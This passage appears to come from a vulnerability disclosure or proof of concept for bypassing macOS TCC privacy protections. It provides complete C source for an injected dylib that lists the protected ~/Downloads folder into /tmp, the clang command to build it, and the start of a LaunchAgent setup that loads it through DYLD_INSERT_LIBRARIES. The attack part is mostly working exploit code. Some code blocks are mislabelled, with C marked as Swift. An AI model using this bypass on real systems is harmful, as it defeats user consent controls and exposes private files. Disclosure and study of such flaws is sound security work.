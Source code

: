 >Note: when attempting to reproduce the vulnerability, make sure that Terminal does not have Full Disk Access in macOS settings. This ensures that access to TCC-protected folders like Documents or Downloads is correctly restricted, and helps demonstrate the actual bypass

Create a custom dylib called bypass_downloads.dylib, first create a bypass_downloads.c file with the following code:

```swift
#include <stdio.h>
#include <stdlib.h>

__attribute__((constructor))
static void injected() {
    FILE *fp;
    FILE *outputFile;
    char path[1024];

    // start logging for debug
    system("echo '[+] dylib started for Downloads' > /tmp/bypass_downloads.log");

    outputFile = fopen("/tmp/Downloads.txt", "w");
    if (outputFile == NULL) {
        system("echo '[!] Couldn't open /tmp/Downloads.txt' >> /tmp/bypass_downloads.log");
        return;
    }

    // try listing the content of Downloads
    fp = popen("ls -Ol ~/Downloads 2>&1", "r");
    if (fp == NULL) {
        fprintf(outputFile, "ERROR: popen failed\n");
        fclose(outputFile);
        return;
    }

    // Output wegschrijven
    while (fgets(path, sizeof(path), fp) != NULL) {
        fprintf(outputFile, "%s", path);
    }

    pclose(fp);
    fclose(outputFile);
}
```

This library attempts to read the contents of the `~/Downloads` folder and writes them to `/tmp`.

Compile it into a `.dylib` file with the following command:
```c
clang -dynamiclib -o bypass_downloads.dylib bypass_downloads.c
```

Create a plist file named `com.bypass.downloads.plist` under `~/Library/LaunchAgent/`. This file specifies the `DYLD_INSERT_LIBRARIES` environment variable, the program and its arguments, and the output file location.
